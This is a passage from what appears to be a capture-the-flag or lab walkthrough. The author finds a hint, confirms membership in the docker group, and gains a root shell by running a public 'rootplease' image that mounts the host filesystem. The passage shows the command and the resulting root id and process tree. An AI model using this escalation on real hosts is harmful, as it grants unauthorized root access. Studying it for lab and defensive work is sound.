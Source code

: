 ```
[shailendra@localhost ~]$ cat hint.txt
docker
```
It seems he wants us to take a closer look into docker lets start by confirming its installed.

```
[shailendra@localhost ~]$ find / -name docker -type f 2>/dev/null -exec ls -halt {} \;
-rwxr-xr-x. 1 root root 82M Jun 22 21:18 /usr/bin/docker
-rw-r--r--. 1 root root 114K Jun 22 21:09 /usr/share/bash-completion/completions/docker
```

Docker looks to be there but do we have permissions to access it?

```
[shailendra@localhost ~]$ id
uid=1001(shailendra) gid=1001(shailendra) groups=1001(shailendra),991(docker)
```
Looks like we do. This is a very dangerous prospect because I now as an attacker am part of the docker group on a box that its installed on. This is dangerous because as we have confirmed in the find docker seems to be installed under root which is the default way to do that. The problem this introduces that that any container that docker launches will inherit those rights from the docker program. In his blog post on the topic Chris Foster lays out a kill chain that explains how one could go about exploiting this in the wild to preform privilege escalation up to the root account on the local docker host machine. [https://fosterelli.co/privilege-escalation-via-docker](https://fosterelli.co/privilege-escalation-via-docker)  

In a nutshell this exploit works by telling docker to run a container that mounts the root filesystem "/" to "/hostOS" inside of that container from there the container will then chroot to /hostOS and launch a shell. Now since the container is launching the shell that will then inherit the privilege of its parent process (in this case docker which is running under root on the host node) effectively dropping us to a root shell running on the host node.

```
[shailendra@localhost ~]$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
Unable to find image 'chrisfosterelli/rootplease:latest' locally
latest: Pulling from chrisfosterelli/rootplease
a4a2a29f9ba4: Pull complete
127c9761dcba: Pull complete
d13bf203e905: Pull complete
4039240d2e0b: Pull complete
16a91ffa6f29: Pull complete
Digest: sha256:eb6be3ee1f9b2fd6e3ae6d4fda81a80bfdf21aad9bde6f1a5234f1baa58d4bb3
Status: Downloaded newer image for chrisfosterelli/rootplease:latest

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
sh-4.4# whoami; id
root
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:spc_t:s0
```

We can see that if we list out the processes with ps -ef --forest, our new /bin/sh shell is running with these privlages
```
root         826       1  0 01:28 ?        00:00:01 /usr/libexec/platform-python -Es /usr/sbin/tuned -l -P
root         827       1  0 01:28 ?        00:00:00 /usr/sbin/sshd -D -oCiphers=aes256-gcm@openssh.com,chacha20-poly1305@openssh.com,aes256-
root        1709     827  0 02:48 ?        00:00:00  \_ sshd: shailendra [priv]
shailen+    1725    1709  0 02:48 ?        00:00:00      \_ sshd: shailendra@pts/0
shailen+    1726    1725  0 02:48 pts/0    00:00:00          \_ -bash
shailen+    1932    1726  0 03:23 pts/0    00:00:00              \_ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
root         834       1  0 01:28 ?        00:00:22 /usr/bin/containerd
root        1975     834  0 03:23 ?        00:00:00  \_ containerd-shim -namespace moby -workdir /var/lib/containerd/io.containerd.runtime.v
root        1992    1975  0 03:23 pts/0    00:00:00      \_ /bin/bash exploit.sh
```